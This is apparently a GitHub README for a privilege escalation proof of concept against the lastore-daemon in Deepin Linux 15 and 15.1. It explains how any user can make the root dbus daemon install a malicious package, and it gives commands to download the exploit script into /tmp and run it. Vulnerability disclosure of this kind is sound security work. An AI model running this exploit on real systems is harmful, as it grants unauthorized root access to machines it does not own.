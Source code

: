 # privilege escalation POC for deepin 15

## Vulnerability Description
* In Deepin Linux 15.1, they designed a daemon (called lastore-daemon) based on dbus and apt to support deepin-appstore.
* Lastore-daemon runs with root privilege to run apt-get commands and listens  to dbus message from every user.
* So, we can send the package name along with some options to lastore-daemon to install or remove any package, even to destroy the host system.
* Apart from that, if we prepare a malicious package and try to cheat lastore-daemon into installing it, then anyone can have root privilege.



## Exploit header		
		Exploit Title: Lastore-daemon in Deepin 15 results in privilege escalation
 		Date: 20160208
 		Exploit Author: King's Way <root#kings-way.info>
	 	Vendor Homepage: http://www.deepin.org
		Software Link: http://cdimage.linuxdeepin.com/releases/15.1/deepin-15.1-amd64.iso
		Version: Deepin 15 & 15.1
 		Tested on: Deepin 15 & 15.1
 		CVE : null

## Ps
Hex data of the homemade package have been written in a single python file, thus all you need to do is:
	
	$ wget https://raw.githubusercontent.com/kings-way/deepinhack/master/deepinhack.py -O  /tmp/deepinhack.py
	
	$ python /tmp/deepinhack.py

Of course, the deb package and the initial python code have been uploaded too.
